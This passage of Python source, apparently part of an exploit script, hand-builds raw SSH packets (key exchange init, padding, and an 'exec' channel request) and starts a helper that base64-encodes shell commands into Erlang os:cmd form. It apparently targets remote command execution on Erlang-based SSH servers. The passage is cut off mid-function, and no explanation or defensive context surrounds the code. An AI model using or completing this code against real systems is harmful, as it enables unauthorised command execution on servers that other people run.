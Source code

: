 ```python
        + struct.pack(">I", 0x68000)  # initial window size
        + struct.pack(">I", 0x10000)  # max packet size
    )


# Builds SSH_MSG_CHANNEL_REQUEST with 'exec' payload
def build_channel_request(channel_id=0, command=None):
    return (
        b"\x62"  # SSH_MSG_CHANNEL_REQUEST
        + struct.pack(">I", channel_id)
        + string_payload("exec")
        + b"\x01"  # want_reply = true
        + string_payload(command)
    )


# Builds a minimal but valid SSH_MSG_KEXINIT packet
def build_kexinit():
    cookie = b"\x00" * 16

    def name_list(l):
        return string_payload(",".join(l))

    # Match server-supported algorithms from the log
    return (
        b"\x14"
        + cookie
        + name_list(
            [
                "curve25519-sha256",
                "ecdh-sha2-nistp256",
                "diffie-hellman-group-exchange-sha256",
                "diffie-hellman-group14-sha256",
            ]
        )  # kex algorithms
        + name_list(["rsa-sha2-256", "rsa-sha2-512"])  # host key algorithms
        + name_list(["aes128-ctr"]) * 2  # encryption client->server, server->client
        + name_list(["hmac-sha1"]) * 2  # MAC algorithms
        + name_list(["none"]) * 2  # compression
        + name_list([]) * 2  # languages
        + b"\x00"
        + struct.pack(">I", 0)  # first_kex_packet_follows, reserved
    )


# Pads a packet to match SSH framing
def pad_packet(payload, block_size=8):
    min_padding = 4
    padding_len = block_size - ((len(payload) + 5) % block_size)
    if padding_len < min_padding:
        padding_len += block_size
    return (
        struct.pack(">I", len(payload) + 1 + padding_len)
        + bytes([padding_len])
        + payload
        + bytes([0] * padding_len)
    )


# Convert system command to Erlang os:cmd format
def format_erlang_command(cmd):
    # Use base64 encoding to avoid escaping issues
    encoded_cmd = base64.b64encode(cmd.encode()).decode()
```
